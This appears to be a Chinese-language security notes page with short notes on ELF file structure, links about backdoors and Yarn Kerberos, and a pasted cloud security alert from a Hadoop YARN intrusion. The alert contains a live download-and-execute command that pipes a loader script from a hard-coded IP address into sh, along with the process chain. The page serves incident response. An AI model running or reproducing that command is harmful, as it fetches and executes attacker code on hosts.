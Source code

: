 ELF头(ELF header) - 描述文件的主要特性：类型，CPU架构，入口地址，现有部分的大小和偏移等等；

程序头表(Program header table) - 列举了所有有效的段(segments)和他们的属性。 程序头表需要加载器将文件中的节加载到虚拟内存段中；

节头表(Section header table) - 包含对节(sections)的描述。

现在让我们对这些部分有一些更深的了解。

https://xinqiu.gitbooks.io/linux-inside-zh/content/Theory/linux-theory-2.html

## 后门的类型

https://www.cnblogs.com/zlgxzswjy/p/6209571.html


## Yarn需要开启Kerberos认证

https://s.tencent.com/research/report/1175.html

https://s.tencent.com/research/report/1093.html

# ldr

恶意脚本-恶意脚本代码执行待处理
备注
该告警由如下引擎检测发现：
命令行: /bin/bash -c (curl http://194.145.227.21/ldr.sh?f9edaad2||wget -q -O- http://194.145.227.21/ldr.sh?f9edaad2)|sh
进程PID: 3093
进程文件名: bash
父进程ID: 3090
父进程: bash
父进程文件路径: /usr/bin/bash
进程链:
-[1059]  /usr/bin/python2 /opt/cloudera/cm-agent/bin/../bin/supervisord -n
    -[19561]  /usr/bin/python2 /opt/cloudera/cm-agent/bin/cm proc_watcher 19588
        -[19588]  /usr/lib/jvm/jre-openjdk/bin/java -Dproc_nodemanager -Djava.net.preferIPv4Stack=true -Xms541065216 -Xmx541065216 -XX:+UseParNewGC -XX:+UseConcMarkSweepGC -XX:CMSInitiatingOccupancyFraction=70 -XX:+CMSParallelRemarkEnabled -Dlibrary.leveldbjni.path=/var/run/cloudera-scm-agent/process/567-yarn-NODEMANAGER -Dhadoop.event.appender=,EventCatcher -XX:+HeapDumpOnOutOfMemoryError -XX:HeapDumpPath=/tmp/yarn_yarn-NODEMANAGER-6c773f43a0750daf6093d51f4d8a46e2_pid19588.hprof -XX:OnOutOfMemoryError=/opt/cloudera/cm-agent/service/common/killparent.sh -Dyarn.log.dir=/var/log/hadoop-yarn -Dyarn.log.file=hadoop-cmf-yarn-NODEMANAGER-cdh03.com.log.out -Dyarn.home.dir=/opt/cloudera/parcels/CDH-6.3.2-1.cdh6.3.2.p0.1605554/lib/hadoop-yarn -Dyarn.root.logger=INFO,RFA -Djava.library.path=/opt/cloudera/parcels/CDH-6.3.2-1.cdh6.3.2.p0.1605554/lib/hadoop/lib/native -Dhadoop.log.dir=/var/log/hadoop-yarn -Dhadoop.log.file=hadoop-cmf-yarn-NODEMANAGER-cdh03.com.log.out -Dhadoop.home.dir=/opt/cloudera/parcels/CDH-6.3.2-1.cdh6.3.2.p0.1605554/lib/hadoop -Dhadoop.id.str=yarn -Dhadoop.root.logger=INFO,RFA -Dhadoop.policy.file=hadoop-policy.xml -Dhadoop.security.logger=INFO,NullAppender org.apache.hadoop.yarn.server.nodemanager.NodeManager
            -[3090]  bash /yarn/nm/usercache/dr.who/appcache/application_1635840259220_0019/container_1635840259220_0019_01_000001/default_container_executor.sh

事件说明: 云安全中心检测到您的主机正在执行恶意的脚本代码(包括但不限于bash、powershell、python)，请立刻排查入侵来源。如果是您的运维行为，请选择忽略。

